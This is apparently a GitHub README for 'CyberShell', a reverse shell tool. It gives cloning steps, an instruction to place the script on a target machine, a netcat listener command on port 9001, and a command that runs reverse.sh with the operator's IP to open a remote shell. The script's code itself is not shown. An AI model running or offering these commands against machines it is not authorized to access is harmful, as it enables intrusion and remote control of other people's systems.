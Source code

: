 # 🚀 CyberShell: A Powerful Reverse Shell Tool

**CyberShell** is a cutting-edge reverse shell tool designed for cybersecurity professionals, penetration testers, and developers. It allows you to remotely execute commands on a target machine, making it an essential tool for both offensive and defensive security operations.

---

## 🌟 Features

- **Remote Command Execution**: Execute commands on a remote machine seamlessly.
- **Cross-Platform Support**: Works on Windows, Linux, and macOS.
- **Lightweight and Fast**: Minimal resource usage for efficient operations.
- **Customizable**: Easily modify the code to fit your specific needs.
- **Educational**: Perfect for learning about networking and cybersecurity.

---

## 🛠️ Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Midohajhouj/CyberShell.git
   cd CyberShell
   ```

2. put the script on target machine

    
## 🚦 Usage

1. Start the listener on your machine:
   ```bash
   nc -lvnp 9001
   ```

2. Execute the reverse shell script on the target machine:
   ```bash
   ./reverse.sh <your-ip> 9001
   ```

3. Enjoy remote command execution!

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details.

---

## 🤝 Contributing

Contributions are welcome! Please read the CONTRIBUTING.md file for guidelines.

---

## 🙏 Acknowledgments

- Inspired by various cybersecurity tools and techniques.
- Thanks to the open-source community for their contributions.

--- 

#### *<p align="center"> Coded by <a href="https://github.com/Midohajhouj">MIDO777</a> </p>*
